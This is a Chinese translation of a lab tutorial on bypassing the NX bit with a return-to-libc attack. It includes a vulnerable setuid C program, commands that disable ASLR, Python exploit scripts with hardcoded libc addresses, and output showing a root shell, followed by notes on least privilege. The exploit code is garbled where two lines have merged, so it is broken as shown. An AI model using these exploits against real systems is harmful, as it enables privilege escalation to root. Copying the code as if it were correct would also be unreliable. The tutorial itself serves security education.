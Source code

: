 # 使用return-to-libc绕过NX bit

> 译者：[hackyzh](http://bbs.pediy.com/user-694899.htm)

> 原文：[Bypassing NX bit using return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)

前提条件：

经典的基于堆栈的缓冲区溢出

虚拟机安装：Ubuntu 12.04（x86）

在以前的帖子中，我们看到了这个攻击者

+   复制shellcode堆栈并跳转到它！

为了成功利用漏洞代码。为了阻止攻击者的行动，安全研究人员提出了一个名为“NX Bit”的漏洞缓解！

**什么是NX Bit？**

它是一种利用缓解技术，使某些内存区域不可执行，并使可执行区域不可写。示例：使数据，堆栈和堆段不可执行，而代码段不可写。

在NX bit打开的情况下，我们基于堆栈的缓冲区溢出的经典方法将无法利用此漏洞。因为在经典的方法中，shellcode被复制到堆栈中，返回地址指向shellcode。但是现在由于堆栈不再可执行，我们的漏洞利用失败！但是这种缓解技术并不完全是万无一失的，因此在这篇文章中我们可以看到如何绕过NX Bit！

漏洞代码：此代码与以前发布的漏洞代码相同，稍作修改。稍后我会谈谈需要修改的内容。

```c
 //vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256]; /* [1] */ 
 strcpy(buf,argv[1]); /* [2] */
 printf("%s\n",buf); /* [3] */
 fflush(stdout);  /* [4] */
 return 0;
}
```

编译命令：

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

注意：“-z execstack”参数不传递给gcc，因此现在堆栈是非可执行的，可以验证如下所示：

```
$ readelf -l vuln
...
Program Headers:
 Type      Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
 PHDR      0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
 INTERP    0x000154 0x08048154 0x08048154 0x00013 0x00013 R 0x1
 [Requesting program interpreter: /lib/ld-linux.so.2]
 LOAD      0x000000 0x08048000 0x08048000 0x00678 0x00678 R E 0x1000
 LOAD      0x000f14 0x08049f14 0x08049f14 0x00108 0x00118 RW 0x1000
 DYNAMIC   0x000f28 0x08049f28 0x08049f28 0x000c8 0x000c8 RW 0x4
 NOTE      0x000168 0x08048168 0x08048168 0x00044 0x00044 R 0x4
 ...
 GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RW 0x4
 GNU_RELRO 0x000f14 0x08049f14 0x08049f14 0x000ec 0x000ec R 0x1
$
```

堆栈段只包含RW标志，无E标志！

**如何绕过NX位并实现任意代码执行？**

可以使用叫做“return-to-libc”的攻击技术绕过NX bit。这里返回地址被一个特定的libc函数地址覆盖（而不是包含shellcode的堆栈地址）。例如，如果攻击者想要生成一个shell，那么他将使用system（）地址覆盖返回地址，并在堆栈中设置system（）所需的相应参数，以便成功调用它。

在已经反汇编并绘制了漏洞代码的堆栈布局后，让我们编写一个漏洞代码来绕过NX位！

利用代码：

```py
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#Since ALSR is disabled, libc base address would remain constant and hence we can easily find the function address we want by adding the offset to it. 
#For example system address = libc base address + system offset
#where 
       #libc base address = 0xb7e22000 (Constant address, it can also be obtained from cat /proc//maps)
       #system offset     = 0x0003f060 (obtained from "readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system")

system = 0xb7e61060        #0xb7e2000+0x0003f060
exit = 0xb7e54be0          #0xb7e2000+0x00032be0

#system_arg points to 'sh' substring of 'fflush' string. 
#To spawn a shell, system argument should be 'sh' and hence this is the reason for adding line [4] in vuln.c. 
#But incase there is no 'sh' in vulnerable binary, we can take the other approach of pushing 'sh' string at the end of user input!!
system_arg = 0x804827d     #(obtained from hexdump output of the binary)

#endianess conversion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序给我们root shell，如下所示：

```
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K��}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

宾果，我们得到了root shell！但是在实际应用中，由于root setuid程序会采用最小权限的原则，它并不容易。

什么是最小权限原则？

此技术允许root setuid程序仅在需要时获取root权限。这指的是当需要时，获得root权限，当不需要它们时，它将丢弃获得的root权限。正常做法是root setuid程序之后，用户获取输入之前删除root权限。因此，即使用户输入是恶意的，攻击者也不会得到root shell。例如下面的漏洞代码不允许攻击者获取root shell。

漏洞代码：

```c
//vuln_priv.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */ 
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```

当我们尝试使用下面的漏洞利用代码来利用它时，以上漏洞的代码不会给出root shell。

```py
#exp_priv.py
#!/usr/bin/env python
import struct
from subprocess import call

system = 0xb7e61060
exit = 0xb7e54be0

system_arg = 0x804829d

#endianess conversion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln_priv", buf])
```

注意：exp_priv.py是exp.py的略微修改的版本 ！只是system_arg变量被调整了！

```
$ python exp_priv.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���K川�
$ id
uid=1000(sploitfun) gid=1000(sploitfun) egid=0(root) groups=1000(sploitfun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ rm /bin/ls
rm: remove write-protected regular file `/bin/ls'? y
rm: cannot remove `/bin/ls': Permission denied
$ exit
$
```

这是隧道的尽头吗？如何利用应用最小权限原则的root setuid程序？

对于漏洞代码（vuln_priv），我们的利用代码（exp_priv.py）正在调用system，随后退出，发现它不足以获取root shell。但是如果我们的利用代码（exp_priv.py）被修改为调用以下libc函数（按照列出的顺序）

+   `seteuid(0)`

+   `system(“sh”)`

+   `exit()`

我们将获得root shell。这种技术被称为链接到libc！

